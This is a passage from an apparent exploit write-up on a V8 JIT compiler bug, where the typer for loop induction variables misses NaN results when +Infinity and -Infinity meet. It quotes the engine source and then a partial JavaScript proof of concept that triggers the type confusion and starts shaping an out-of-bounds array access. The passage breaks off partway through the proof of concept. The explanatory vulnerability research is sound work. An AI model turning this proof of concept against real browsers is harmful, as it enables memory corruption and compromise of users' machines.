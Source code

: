 So this bug has to do with _for_ loops, specifically the typing of the induction (loop) variable. The function mentioned above is responsible for typing the induction variable after it is modified by the "change" through addition or subtraction. Let's figure out what's wrong with the code.  
  
```  
Type Typer::Visitor::TypeInductionVariablePhi(Node* node) {  
  
  ...  
  
  Type initial_type = Operand(node, 0);  
  Type increment_type = Operand(node, 2);  
    
  ...  
    
  const bool both_types_integer = initial_type.Is(typer_->cache_->kInteger) &&  
                                  increment_type.Is(typer_->cache_->kInteger);  
  bool maybe_nan = false;  
  // The addition or subtraction could still produce a NaN, if the integer  
  // ranges touch infinity.  
  if (both_types_integer) {  
    Type resultant_type =  
        (arithmetic_type == InductionVariable::ArithmeticType::kAddition)  
            ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)  
            : typer_->operation_typer()->NumberSubtract(initial_type,  
                                                        increment_type);  
    maybe_nan = resultant_type.Maybe(Type::NaN());  
  }  
```  
  
The code above shows that the typer only checks 1 scenario where the result of the change will be NaN (this can be verified by reading through the rest of that function). In the "change" part of the for loop `initial_type` is the induction variable and `increment_type` is the thing modifying it. If both variables are `kInteger` types, then it will check if their result can be NaN. If either is already NaN, then obviously the result can be NaN, but it turns out there is another situation where the result will be NaN, if +/- Infinity is added to it's opposite. These values are not part of `kInteger`, so they will not be checked. Here in lies the confusion. The result should be NaN, and will be at runtime, but the typer doesn't see that situation as possible when it is optimizing the rest of the function.  
  
Now that we see how the code is vulnerable, let's look at the PoC to get an idea of how to trigger the vulnerability and further turn that into an OOB array access.  
  
```  
function trigger() {  
  var x = -Infinity;  
  var k = 0;  
  for (var i = 0; i < 1; i += x) {  
      if (i == -Infinity) {  
        x = +Infinity;  
      }  
  
      if (++k > 10) {  
        break;  
      }  
  }  
  
  var value = Math.max(i, 1024);  
  value = -value;  
  value = Math.max(value, -1025);  
  value = -value;  
  value -= 1022;  
  value >>= 1; // *** 3 ***  
  value += 10; //  
  
  var array = Array(value);  
  array[0] = 1.1;  
```